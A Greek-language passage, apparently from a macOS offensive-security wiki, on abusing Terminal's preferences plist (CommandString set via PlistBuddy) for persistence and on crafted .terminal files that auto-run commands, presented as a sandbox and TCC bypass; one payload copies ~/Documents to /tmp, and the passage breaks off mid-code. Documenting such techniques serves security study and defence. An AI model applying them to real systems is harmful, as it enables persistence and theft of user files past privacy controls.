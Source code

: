 Αυτή η ρύθμιση αντανακλάται στο αρχείο **`~/Library/Preferences/com.apple.Terminal.plist`** ως εξής:
```bash
[...]
"Window Settings" => {
"Basic" => {
"CommandString" => "touch /tmp/terminal_pwn"
"Font" => {length = 267, bytes = 0x62706c69 73743030 d4010203 04050607 ... 00000000 000000cf }
"FontAntialias" => 1
"FontWidthSpacing" => 1.004032258064516
"name" => "Basic"
"ProfileCurrentVersion" => 2.07
"RunCommandAsShell" => 0
"type" => "Window Settings"
}
[...]
```
Έτσι, αν το plist των προτιμήσεων του τερματικού στο σύστημα μπορεί να αντικατασταθεί, τότε η λειτουργία **`open`** μπορεί να χρησιμοποιηθεί για **να ανοίξει το τερματικό και να εκτελεστεί εκείνη η εντολή**.

Μπορείτε να το προσθέσετε από το cli με:
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" 'touch /tmp/terminal-start-command'" $HOME/Library/Preferences/com.apple.Terminal.plist
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"RunCommandAsShell\" 0" $HOME/Library/Preferences/com.apple.Terminal.plist

# Remove
/usr/libexec/PlistBuddy -c "Set :\"Window Settings\":\"Basic\":\"CommandString\" ''" $HOME/Library/Preferences/com.apple.Terminal.plist
```
{% endcode %}

### Σενάρια τερματικού / Άλλες επεκτάσεις αρχείων

* Χρήσιμο για παράκαμψη της αμμόλοφης: [✅](https://emojipedia.org/check-mark-button)
* Παράκαμψη TCC: [✅](https://emojipedia.org/check-mark-button)
* Χρήση τερματικού για να έχει ο χρήστης FDA δικαιώματα

#### Τοποθεσία

* **Οπουδήποτε**
* **Ενεργοποίηση**: Άνοιγμα Τερματικού

#### Περιγραφή & Εκμετάλλευση

Αν δημιουργήσετε ένα [**`.terminal`** σενάριο](https://stackoverflow.com/questions/32086004/how-to-use-the-default-terminal-settings-when-opening-a-terminal-file-osx) και το ανοίξετε, η εφαρμογή **Τερματικό** θα εκτελέσει αυτόματα τις εντολές που υποδεικνύονται εκεί. Αν η εφαρμογή Τερματικού έχει κάποια ειδικά προνόμια (όπως TCC), η εντολή σας θα εκτελεστεί με αυτά τα ειδικά προνόμια.

Δοκιμάστε το με:
```bash
# Prepare the payload
cat > /tmp/test.terminal << EOF
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
<key>CommandString</key>
<string>mkdir /tmp/Documents; cp -r ~/Documents /tmp/Documents;</string>
<key>ProfileCurrentVersion</key>
<real>2.0600000000000001</real>
<key>RunCommandAsShell</key>
```